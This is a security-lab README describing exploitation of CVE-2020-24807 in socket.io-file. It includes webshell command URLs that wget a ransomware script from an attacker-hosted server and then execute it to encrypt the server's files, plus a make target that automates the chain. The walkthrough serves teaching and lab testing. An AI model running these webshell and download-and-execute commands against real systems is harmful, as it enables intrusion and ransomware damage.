





# Remote Code Execution
- Vulnerable component: socket.io-file library
- Affected version: ≤ 2.0.31
- CVE ID: [CVE-2020-24807](https://nvd.nist.gov/vuln/detail/CVE-2020-24807)

## Description
In this scenario, it is possible to upload a malicious javaScript file to execute a webshell on the victim machine.
Once this is done, the attacker loads the python ransomware file from his HTTP server and executes it through the webshell. The effect is the encryption of the files on the victim machine.


### Quick automation with Makefile
To test the scenario, you can run:
```bash
make start-attack
```

This will:
1. Upload ```webshell.js``` file;
2. Download rthe ansomware file via remote access;
3. Execute the ransomware.

Using:
```bash
make check-attack
```

you can verify whether the ransomware attack was successful.

## How to reproduce the issue
As a first step, access ```http://localhost:8080```:



### Step 1: Upload ```webshell.js``` file
Upload the ```webshell.js``` file, located in the ```public/labs/6_socketIOFile``` path:



Once uploaded, a communication channel with the victim machine is established. This is possible because, in the vulnerable versions, the server doesn't check the file format and saves it of victime machine:



### Step 2: Download ```ransomware.py``` file from the attacker web server
On VM an attacker-controlled web server is then started, from which the file ```ransomware.py``` can be downloaded:
```bash
python3 -m http.server 8000
```

From the browser, the file can be downloaded using the following HTTP request:
```bash
http://localhost:8080/webshell.js/?cmd=wget http://<IP_VM>:8000/ransomware.py
```



The file is then moved into the appropriate directory:
```bash
http://localhost:8080/webshell.js/?cmd=mv ransomware.py ./public/
```
### Step 4: Launch the attack
Finally, the attack is launched:
```bash
http://localhost:8080/webshell.js/?cmd=python3 ./public/ransomware.py
```
The effect is the encryption of all files contained in the ```public``` directory of the web server:



## Mitigations
- Update to patched versions.
- Improve server-side validation controls.